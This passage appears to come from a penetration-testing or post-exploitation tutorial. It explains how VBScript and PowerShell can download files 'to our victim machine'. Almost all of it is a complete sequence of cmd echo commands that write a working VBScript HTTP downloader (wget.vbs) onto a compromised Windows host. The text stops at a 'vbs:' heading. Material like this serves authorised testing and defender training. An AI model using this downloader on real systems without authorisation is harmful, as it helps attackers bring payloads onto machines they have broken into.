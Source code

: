 Scripting engines such as VBScript (in Windows XP, 2003) and PowerShell (in
Windows 7, 2008, and above) can both be leveraged to download files to our
victim machine.

VBS script - simple HTTP downloader

cmd:

echo strUrl = WScript.Arguments.Item(0) \> wget.vbs

echo StrFile = WScript.Arguments.Item(1) \>\> wget.vbs

echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 \>\> wget.vbs

echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 \>\> wget.vbs

echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 \>\> wget.vbs

echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 \>\> wget.vbs

echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts \>\>
wget.vbs

echo Err.Clear \>\> wget.vbs

echo Set http = Nothing \>\> wget.vbs

echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") \>\> wget.vbs

echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest")
\>\> wget.vbs

echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP")
\>\> wget.vbs

echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") \>\>
wget.vbs

echo http.Open "GET", strURL, False \>\> wget.vbs

echo http.Send \>\> wget.vbs

echo varByteArray = http.ResponseBody \>\> wget.vbs

echo Set http = Nothing \>\> wget.vbs

echo Set fs = CreateObject("Scripting.FileSystemObject") \>\> wget.vbs

echo Set ts = fs.CreateTextFile(StrFile, True) \>\> wget.vbs

echo strData = "" \>\> wget.vbs

echo strBuffer = "" \>\> wget.vbs

echo For lngCounter = 0 to UBound(varByteArray) \>\> wget.vbs

echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) \>\>
wget.vbs

echo Next \>\> wget.vbs

echo ts.Close \>\> wget.vbs

vbs:
